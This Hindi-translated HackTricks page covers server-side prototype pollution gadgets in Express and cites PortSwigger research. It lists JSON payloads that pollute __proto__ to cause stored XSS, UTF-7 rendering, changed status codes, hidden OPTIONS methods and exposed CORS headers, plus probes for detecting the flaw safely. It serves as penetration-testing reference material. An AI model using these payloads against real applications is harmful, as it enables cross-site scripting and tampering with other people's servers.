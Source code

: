 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**अधिक जानकारी के लिए** [**मूल शोध पर एक नज़र डालें**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON सामग्री प्रकार को HTML में बदलें

एक Express ऐप में जो **JSON सामग्री प्रकार प्रतिक्रिया** का उपयोग कर रहा है और एक JSON को दर्शा रहा है:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
इन मामलों में XSS सामान्यतः JSON सामग्री प्रकार के साथ संभव नहीं है। हालाँकि, प्रोटोटाइप प्रदूषण के साथ हम **Express को HTML प्रतिक्रिया देने के लिए भ्रमित कर सकते हैं।** यह भेद्यता इस पर निर्भर करती है कि एप्लिकेशन **`res.send(obj)`** का उपयोग कर रहा है और एप्लिकेशन/json सामग्री प्रकार के साथ बॉडी पार्सर का उपयोग कर रहा है।
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** और **`_body`** प्रॉपर्टीज़ को **polluting** करके, **Express को HTML कंटेंट टाइप** सर्व करने और `_body` प्रॉपर्टी को दर्शाने के लिए मजबूर किया जा सकता है, जिससे स्टोर्ड XSS होता है।

### Render UTF7

यह संभव है कि express **UTF-7 कंटेंट को** रेंडर करे:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

निम्नलिखित PP JSON के अंदर विशेषताओं को एक अतिरिक्त स्थान देने के लिए है जो कार्यक्षमता को बाधित नहीं करेगा:
```json
{"__proto__":{"json spaces": " "}}
```
फिर एक परावर्तित JSON इस तरह दिखेगा:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

निम्नलिखित PP गैजेट सर्वर को HTTP हेडर भेजने के लिए मजबूर करेगा: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
यह **CORS मॉड्यूल को स्थापित करने की आवश्यकता है**

### **OPTIONS विधि**

निम्नलिखित पेलोड के साथ, **OPTIONS प्रतिक्रिया से एक विधि को छिपाना संभव है**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **स्थिति**

निम्नलिखित PP पेलोड का उपयोग करके **वापस किए गए स्थिति कोड** को बदलना संभव है:
```json
{"__proto__":{"status":510}}
```
### Error

जब आप एक प्राइमिटिव जैसे कि स्ट्रिंग के साथ एक प्रोटोटाइप को असाइन करते हैं, तो यह **कोई ऑपरेशन नहीं करता क्योंकि प्रोटोटाइप को एक ऑब्जेक्ट होना चाहिए**। यदि आप `Object.prototype` को स्वयं एक प्रोटोटाइप ऑब्जेक्ट असाइन करने का प्रयास करते हैं, तो यह **एक अपवाद फेंकेगा**। हम इन दो व्यवहारों का उपयोग **यह पता लगाने के लिए कर सकते हैं कि क्या प्रोटोटाइप प्रदूषण सफल रहा**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

जब एक एप्लिकेशन अपनी प्रतिक्रिया में एक ऑब्जेक्ट शामिल करता है, तो **`__proto__` के साथ एक असामान्य नाम वाला एट्रिब्यूट बनाना** जानकारीपूर्ण हो सकता है। विशेष रूप से, यदि **केवल असामान्य एट्रिब्यूट प्रतिक्रिया में लौटाया जाता है**, तो यह एप्लिकेशन की कमजोरी को इंगित कर सकता है:
```json
{"unusualName":"value","__proto__":"test"}
```
इसके अलावा, उन परिदृश्यों में जहां Lodash जैसी लाइब्रेरी का उपयोग किया जाता है, प्रोटोटाइप प्रदूषण (PP) के माध्यम से और सीधे ऑब्जेक्ट के अंदर एक प्रॉपर्टी सेट करना एक और निदान दृष्टिकोण प्रदान करता है। यदि ऐसी प्रॉपर्टी प्रतिक्रिया से छोड़ी जाती है, तो यह सुझाव देता है कि Lodash लक्ष्य ऑब्जेक्ट में प्रॉपर्टी के अस्तित्व की पुष्टि कर रहा है इससे पहले कि वह मर्ज करे:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express में एक विकल्प है जो आपको **क्वेरी स्ट्रिंग पैरामीटर से ऑब्जेक्ट बनाने** की अनुमति देता है।\
आप निश्चित रूप से इसका उपयोग एक बग **चेन** में **प्रोटोटाइप प्रदूषण भेद्यता** का लाभ उठाने के लिए कर सकते हैं।
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` नोड में एक ऑब्जेक्ट बनाता है।**

## संदर्भ

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}

